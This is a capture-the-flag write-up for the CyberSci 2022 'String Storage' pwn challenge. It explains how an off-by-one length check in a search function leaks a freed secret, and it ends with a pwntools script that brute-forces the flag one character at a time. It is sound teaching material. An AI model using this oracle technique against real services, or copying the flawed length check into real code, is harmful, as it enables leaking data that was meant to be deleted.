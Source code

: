 ```yaml
---
title: CyberSci 2022 - pwn - String Storage
slug: string-storage
published: 2022-11-12
tags: [off-by-one, pwn, CTF]
category: CTF writeups
description: Abusing an off-by-one error in a search query to extract dereferenced data
---
```


## About the challenge

[Link to provided source code](/files/string-storage/main.c)

This challenge is the only pwn challenge in CyberSci 2022 and is worth 300 points.

For this challenge, we were only provided with the source code.
An instance of the program is spawned when we connect to the given port during the CTF.

---

## Initial Exploration

Since we were not given a binary for the challenge,
we can assume that the expected exploit should not require any
specific kind of memory corruption.

Looking at `main`, we see a global buffer being allocated, and some multiple calls to `add_entry`.
We also see a conditional addition and removal of `CTFKEY`.

```c
// main program body
int main() {
    stringArea = malloc(MAXENTRYSIZE * 16);

    add_entry("Test entry one\n");
    add_entry("Test entry two\n");
    add_entry("Test entry three\n");
    add_entry("Yet another test entry here!\n");

#ifdef PREPPUZZLE
    // add_entry("TEST\n");
    add_entry(CTFKEY);
    remove_entry(CTFKEY);

#endif
    
    while(1){
        process_user_input();
    }

    return 0;
}
```

`add_entry` will add the string in the next available and large enough area in `stringArea`

```c
//add a string entry, places it in the next large enough slot in our string buffer
int add_entry(char *entryString)
{
    debug_printf("adding %s \n", entryString);
    int string_space_needed = strlen(entryString) - 1;
    // if the list is empty, just make a new entry at the beginning
    if(entry_list_head == NULL){
        entry_list_head = create_entry(entryString, stringArea, string_space_needed);
    }
    //otherwise go through the items
    //if the item is the first, check if there is a gap big enough infront 
    //then check if there is a gap in between
    else{
        
        struct entry *current = entry_list_head;

        char *last_string_start = current->entry_string;
        char *last_string_end = last_string_start + current->entry_size;

        
        while(current->next !=NULL){
            debug_printf("element\n");
            current = current->next;
            last_string_start = current->entry_string;
            last_string_end = last_string_start + current->entry_size;
        }
        //if we are at end of list, just make a new entry at the end
        current->next = create_entry(entryString, last_string_end, string_space_needed);
    }
}
```

`create_entry` simply places the string in the indicated area in the buffer.

```c
//helper function to make a new entry
entry * create_entry(char * entry_string, char * string_location, int string_len){
    entry *new_entry = malloc(sizeof(entry));
    if(!new_entry){
        exit(-1);
    }
    new_entry->entry_string = string_location;
    new_entry->entry_size = string_len;
    strncpy(new_entry->entry_string, entry_string, string_len);
    new_entry->next = NULL;
    return new_entry;
}
```

The `remove_entry` function can be used to "delete" an entry.
What it actually does is it removes all references to the first entry
that matches with `string`, marking the area as free.

```c
//remove an entry that matches the string
int remove_entry(char *string){
    entry *current = entry_list_head;
    entry *previous = current;
    while(current != NULL){
        int string_len = strlen(string) - 1;
        //first check if strings are same length
        if(string_len == current->entry_size){
            //DEBUG
            debug_printf("same len \n");
            if (strncmp(string, current->entry_string, current->entry_size) ==0)
            {
                printf("found match\n");
                previous->next = current->next;
                if(current == entry_list_head){
                    entry_list_head = current->next;
                }
                free(current);
                return 1;
            }
        }
        //move along
        previous = current;
        current = current->next;
    }
    printf("no match found\n");
}
```

The critical part of the program is `search_entries`, as it was noted to be broken.
Notice that instead of looking for entries that match the string,
it doesn't work because `entry_len` is defined to be one more than the current entry size.
This results in the program checking one extra byte when searching for entries.
So, if we were to search for an entry that we know exists, `search_entry`
will not find a match.

```c
// loop through all the entries and print if there are any matches
//DEVELOLPER NOTE: this seems broken.....
int search_entries(char *string){
    entry *current = entry_list_head;
    int in_len = strlen(string) -1;
    while (current != NULL)
    {
        //check that the srtings are the same length
        int entry_len = current->entry_size + 1; 
        if(in_len == entry_len){
            debug_printf("matching len (%d,%d)   \n",in_len,entry_len);
            if (strncmp(string, current->entry_string, entry_len) == 0)
            {
                printf("found match\n");
                return 1;
            }
        }
        //move along
        current = current->next;
    }
    printf("no match found\n");
    return 0;
}
```
Because of the broken `search_entry` function, we would need to be able to know what the next character
is in `stringArea` after the entry we're searching.

## Strategy

In a way, `search_entry` is an oracle to determining the contents of `CTFKEY`.
Since we know the entry before `CTFKEY`,
we can use that entry as a search query string, guess the first character of `CTFKEY`,
add that to our search query, and see if we get a match or not.

Once we figured out the first character of `CTFKEY` we can extend our search query string
to guess for the second character. To do that, we will remove the entry before `CTFKEY`,
then add it again with the first character of `CTFKEY`.
That way, we can extend our search query string and `search_string` would peek for the second character.

We would repeat the process of brute-force searching, removal and addition until we reveal the whole flag.

## Exploit code

```py
from pwn import *
from string import printable

attack_remote = False

if attack_remote:
    p = remote('10.0.2.43', 10001)
else:
    elf = ELF('./main')
    p = elf.process()

search_payload = b'Yet another test entry here!'

while True:
    guess_bytes = [bytes(c, 'utf-8') for c in printable]
    found_valid_byte = False
    for guess in guess_bytes:
        p.sendline(b'search')
        p.recvuntil(b'search for?\n')
        print('payload: %s' % (search_payload + guess))
        p.sendline(search_payload + guess)
        result = p.recvuntil(b'or search :\n')
        if b"found match" in result:
            p.sendline(b'remove')
            p.sendline(search_payload)
            p.recvuntil(b'or search :\n')
            search_payload = search_payload + guess
            p.sendline(b'add')
            p.sendline(search_payload)
            p.recvuntil(b'or search :\n')
            found_valid_byte = True
            break
    # if we didn't find any more valid bytes, just quit
    if not found_valid_byte:
        break

print(search_payload[28:])
```
